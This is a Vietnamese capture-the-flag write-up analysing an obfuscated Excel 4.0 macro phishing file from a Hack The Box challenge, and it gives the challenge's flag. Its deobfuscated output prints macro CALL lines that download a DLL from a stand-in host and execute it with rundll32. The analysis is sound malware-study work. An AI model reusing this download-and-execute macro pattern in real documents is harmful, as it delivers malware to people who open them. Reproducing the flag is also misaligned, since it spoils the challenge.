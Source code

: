 ### Description 
> Another Phishing document. Dig in and see if you can find what it executes.
### Link challenge 
> https://app.hackthebox.com/challenges/oBfsC4t10n2

### Solution
- Dựa vào description và challenge cho ta 1 file xls
- Sau khi mở ra chỉ thấy 1 sheet tên `invoice `
- ![image](image/45.png)
- Tiếp tục kiểm tra macro với công cụ olevba, nhưng có vẻ nó đã bị xáo trộn mã để nhà phân tích khó đọc
- Mình sẽ sử dụng công cụ [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) để sửa mã lại cho dễ đọc
- Đây là đầu ra 
```
┌──(kali㉿kali)-[~/Downloads/XLMMacroDeobfuscator/XLMMacroDeobfuscator]
└─$ python3 deobfuscator.py --file ~/Downloads/oBfsC4t10n2.xls 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)

          _        _______
|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/

    
XLMMacroDeobfuscator(v0.2.7) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/kali/Downloads/oBfsC4t10n2.xls

Unencrypted xls file

[Loading Cells]
auto_open: auto_open->'c1zB0vasNo'!$N$545
[Starting Deobfuscation]
CELL:N545      , PartialEvaluation   , =WORKBOOK.HIDE("c1zB0vasNO",TRUE)
CELL:N546      , FullEvaluation      , GET.WORKSPACE(1)
CELL:N547      , Branching           , IF(ISNUMBER(SEARCH("Windows",N546)),ON.TIME(NOW()+"00:00:02","agawf23f"),CLOSE(FALSE))
CELL:N547      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","agawf23f")
CELL:D8        , Branching           , IF(GET.WORKSPACE(42.0),CONCATENATE(E394,F1194,F549,E635,O697,U208,T458,M868,Z4,U777),CONCATENATE(F394,F1194,E549,O635,U697,D777))
CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"
CELL:D9        , FullEvaluation      , GET.WORKSPACE(13)
CELL:D10       , FullEvaluation      , GOTO(C1300)
CELL:C1300     , FullEvaluation      , GOTO(Q222)
CELL:Q222      , Branching           , IF(GET.WORKSPACE(19.0),ON.TIME(NOW()+"00:00:02","rstegerg3"),CLOSE(TRUE))
CELL:Q222      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","rstegerg3")
CELL:T698      , Branching           , IF(OR(D9<700.0),ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","Lsl23Us7a"))
CELL:T698      , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","Lsl23Us7a")
CELL:D1337     , Branching           , IF(F100<300.0,ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","KsshpqC4Mo"))
CELL:D1337     , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","KsshpqC4Mo")
CELL:D1023     , Branching           , IF(ISNUMBER(SEARCH("6.1",N546)),CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813),CONCATENATE(A699,E932,K1190,J574,A644,Z718,W813))
CELL:D1023     , FullEvaluation      , [FALSE] "A$0!(rR"
CELL:D1024     , FullEvaluation      , GOTO(R1186)
CELL:R1186     , FullEvaluation      , GET.WORKSPACE(1)
CELL:R1187     , FullEvaluation      , IF(NOT(ISNUMBER(SEARCH("7.0",R1186))),CLOSE(FALSE))
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),CONCATENATE(E394,F1194,F549,E635,O697,U208,T458,M868,Z4,U777),CONCATENATE(F394,F1194,E549,O635,U697,D777))Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)),CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813),CONCATENATE(A699,E932,K1190,J574,A644,Z718,W813))}",0,0)
CELL:R1192     , FullEvaluation      , GOTO(A1338)
CELL:A1338     , FullEvaluation      , FORMULA.FILL("a",A1:Z1337)
CELL:A1339     , End                 , HALT()
CELL:D1023     , FullEvaluation      , [FALSE] "aaaaaaa"
CELL:D8        , FullEvaluation      , [TRUE] "aaaaaaaaaa"

Files:

[END of Deobfuscation]
time elapsed: 0.8344771862030029

```
- Ngay tại dòng đầu tiên : `WORKBOOK.HIDE("c1zB0vasNO",TRUE)`, ta thấy rằng 1 sheet `c1zB0vasNO` đã bị ẩn và 1 vài phép nối chuỗi thông qua `CONCATENATE`
- Tại dòng này `CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"` ta có thể thấy 1 phần của flag 
- Thực thi từ xa và tải xuống mã độc: Các lệnh từ R1188 đến R1191 sử dụng hàm CALL để gọi các hàm API của Windows, tạo thư mục, tải xuống một DLL từ một URL cụ thể, và sau đó thực thi nó bằng cách sử dụng rundll32.exe. Điều này là một dấu hiệu rõ ràng của việc tải xuống và thực thi mã độc từ xa.
- Để biết được các lệnh ghép chuỗi ra payload gì, ta có 2 cách 
##### Cách 1 : Thủ công và tạo script để phân tích malware
- Ta biết rằng có 1 sheet ẩn tên  `c1zB0vasNO`, vì mình dùng libreoffice nên mình trích xuất sheet ẩn theo hướng dẫn [này](https://youtu.be/9PLL7SEeh9Q)
- ![image](image/46.png)
- Trong sheet này, ta có thể thấy mỗi ô nó sẽ chứa 1 hoặc 1 vài kí tự 
- ![nnd](image/47.png)
- Dựa vào đó mình sẽ viết 1 script python để trích xuất payload xem nó làm gì 
```
import xlrd

file_path = 'oBfsC4t10n2.xls'
sheet_name = 'c1zB0vasNo'
string_cell = 'E394,F1194,F549,E635,O697'
list_cell = string_cell.split(',')

def column_name_to_index(col_name):
    index = 0
    for char in col_name:
        index = index * 26 + (ord(char.upper()) - ord('A')) + 1
    return index - 1

workbook = xlrd.open_workbook(file_path)
#print("Danh sách các sheet trong tệp Excel:")
print(workbook.sheet_names())

if sheet_name.lower() in (name.lower() for name in workbook.sheet_names()):
    sheet = workbook.sheet_by_name(sheet_name)

    for cell_name in list_cell:
        col_name = ''.join([c for c in cell_name if c.isalpha()])
        row_index = int(''.join([c for c in cell_name if c.isdigit()])) - 1
        col_index = column_name_to_index(col_name.strip())

        if row_index < sheet.nrows and col_index < sheet.ncols:
            cell_value = sheet.cell_value(row_index, col_index)
            print(cell_value, end = '')
        else:
            print(f"Ô '{cell_name}' không tồn tại trong sheet '{sheet_name}'.")
else:
    print(f"Sheet với tên '{sheet_name}' không tồn tại trong tệp Excel.")

```
- Ta sẽ thay thế lần lượt biến `string_cell = 'E394,F1194,F549,E635,O697'` bằng các phép nối chuỗi thì ta sẽ được full code như sau
```
[Loading Cells]
auto_open: auto_open->'c1zB0vasNo'!$N$545
[Starting Deobfuscation]
CELL:N545      , PartialEvaluation   , =WORKBOOK.HIDE("c1zB0vasNO",TRUE)
CELL:N546      , FullEvaluation      , GET.WORKSPACE(1)
CELL:N547      , Branching           , IF(ISNUMBER(SEARCH("Windows",N546)),ON.TIME(NOW()+"00:00:02","agawf23f"),CLOSE(FALSE))
CELL:N547      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","agawf23f")
CELL:D8        , Branching           , IF(GET.WORKSPACE(42.0), "HTB{n0w_e" , "bHDr]9")
CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"
CELL:D9        , FullEvaluation      , GET.WORKSPACE(13)
CELL:D10       , FullEvaluation      , GOTO(C1300)
CELL:C1300     , FullEvaluation      , GOTO(Q222)
CELL:Q222      , Branching           , IF(GET.WORKSPACE(19.0),ON.TIME(NOW()+"00:00:02","rstegerg3"),CLOSE(TRUE))
CELL:Q222      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","rstegerg3")
CELL:T698      , Branching           , IF(OR(D9<700.0),ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","Lsl23Us7a"))
CELL:T698      , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","Lsl23Us7a")
CELL:D1337     , Branching           , IF(F100<300.0,ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","KsshpqC4Mo"))
CELL:D1337     , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","KsshpqC4Mo")
CELL:D1023     , Branching           , IF(ISNUMBER(SEARCH("6.1",N546)), "cr0.0b4cK" ,"A$0!(rR")
CELL:D1023     , FullEvaluation      , [FALSE] "A$0!(rR"
CELL:D1024     , FullEvaluation      , GOTO(R1186)
CELL:R1186     , FullEvaluation      , GET.WORKSPACE(1)
CELL:R1187     , FullEvaluation      , IF(NOT(ISNUMBER(SEARCH("7.0",R1186))),CLOSE(FALSE))
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),"HTB{n0w_e" , "bHDr]9 " )Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)), "cr0.0b4cK" ,"A$0!(rR")}",0,0)
CELL:R1192     , FullEvaluation      , GOTO(A1338)
CELL:A1338     , FullEvaluation      , FORMULA.FILL("a",A1:Z1337)
CELL:A1339     , End                 , HALT()
CELL:D1023     , FullEvaluation      , [FALSE] "aaaaaaa"
CELL:D8        , FullEvaluation      , [TRUE] "aaaaaaaaaa"
```
- Tuy nhiên ở đây ta chỉ phân tích malware bằng kĩ thuật chứ chưa thể trích xuất đầy đủ dữ liệu được.
- Nhìn vào các lời gọi 
```
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),"HTB{n0w_e" , "bHDr]9 " )Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)), "cr0.0b4cK" ,"A$0!(rR")}",0,0)
```
- Ta thấy rằng chúng tải xuống file s.dll về `C:\rncwner\CkuiQhTXx.dll` sau đó thực thi bằng rundll32.exe
##### Cách 2: Tự động bằng công cụ XLMMacroDeobfuscator
- Ta sử dụng opption -x để tự động trích xuất các dữ liệu này ra (khuyến khích dùng)
- ![image](image/48.png)
- ![ka](image/49.png)

> HTB{n0w_eXc3l_4.0_M4cr0s_r_b4cK}